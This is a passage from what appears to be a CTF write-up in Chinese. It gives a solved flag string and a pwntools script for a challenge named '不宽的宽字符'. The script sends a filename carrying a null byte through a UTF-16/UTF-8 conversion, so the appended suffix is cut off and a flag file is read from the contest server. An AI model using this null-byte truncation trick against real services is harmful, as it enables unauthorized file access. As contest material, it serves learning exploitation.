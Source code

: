 ![比大小王](比大小王.png)

`flag{!-4m-TH3-H@CkeR-KING-oF-C0MPArINg-NuMbErs-z0z4}`



## 不宽的宽字符

```python
from pwn import *

io = remote('202.38.93.141', 14202)
io.recvuntil(b'Please input your token: \n')
io.sendline(b'1411:MEQCIAplFMrlOcSGiuyvXbD2viXkZel+YtLmOBzUXj48+rzXAiBrX2C/xRLIxhAn+TJYUsQtGEDzpleulEFWzyijebwTXA==')

io.recvuntil(b"Enter filename. I'll append 'you_cant_get_the_flag' to it:\r\n")
payload = b'Z:\\theflag\x00"'

s = payload.decode('utf-16')
print(s)
u8 = s.encode('utf-8')
print(u8)
print(s.encode('utf-16')[2:])
io.sendline(u8)

print(io.recvall())
```
